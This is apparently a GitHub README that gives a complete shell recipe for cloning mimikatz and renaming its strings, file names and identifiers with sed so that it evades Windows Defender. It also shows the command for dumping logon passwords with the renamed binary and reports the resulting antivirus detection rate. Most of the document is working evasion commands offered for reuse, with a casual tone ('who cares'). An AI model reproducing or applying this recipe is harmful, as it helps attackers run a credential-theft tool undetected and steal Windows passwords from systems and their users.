 # Simple Mimikatz "Obfuscator"

### **Tested in**
**Defender**: Security Intelligence (yeah...) Version **1.299.423.0**

**Windows**: **1903** (OS Build **18362.239**)

## Description 
The following set of commands, will download the latest version of mimikatz and make a few changes to the source code, in order to bypass Defender. I **have only tested with logonpasswords** (**logonpassword** after the changes...). If you want other modules, i suppose that one more "sed" will do the job...

I do not really use to use mimikatz from an executable (i really prefer the "Cobalt Strike" way), but i was curious how difficult could be to bypass the Defender. 

## It is that difficult 

    git clone https://github.com/gentilkiwi/mimikatz.git windows
    mv windows/mimikatz windows/windows
    find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/gweep/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/@gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/notcommons/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DumpCreds/DumpCred/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/logonPasswords/logonPassword/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/ArgumentPtr/NotTodayPal/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' 
    
    
    
    find windows/ -type f -name '*mimikatz*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
    	mv "${FILE}" "${newfile}";
    done
    find windows/ -type f -name '*kiwi*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
    	mv "${FILE}" "${newfile}";
    done
    
    cd ./windows/windows/
    sed -i "0,/#if \!defined(_POWERKATZ)/! {0,/#if \!defined(_POWERKATZ)/ s/#if \!defined(_POWERKATZ)/\/*\r\n#if \!defined(_POWERKATZ)/}" windows.c
    sed -i "0,/#endif/! {0,/#endif/! {0,/#endif/ s/#endif/#endif\r\n*\//}}" windows.c

And probably not all of these are needed, but who cares.
## PoC
[https://youtu.be/OMktHYpzOi4](https://youtu.be/OMktHYpzOi4)
## How To

You can only invoke it with arguments:

> *windows.exe privilege::debug sekurlsa::**logonpassword***

## Commit

Although i targeted Defender, based on antiscan.me there is a **detection rate 9/26** . ~~I will try to bypass the 9 remaining~~  
If you find other signatures and you want to share, please feel free to commit.

## References

Of course all credits go to: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) 

This guy created this amazing tool and gave it to all of us. 

I "stole" a lot from the following articles:

[https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY](https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY)

[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0)



And i almost copied paste from the following:

[https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517](https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517)
thx JonnyBanana

Supper difficult ha?
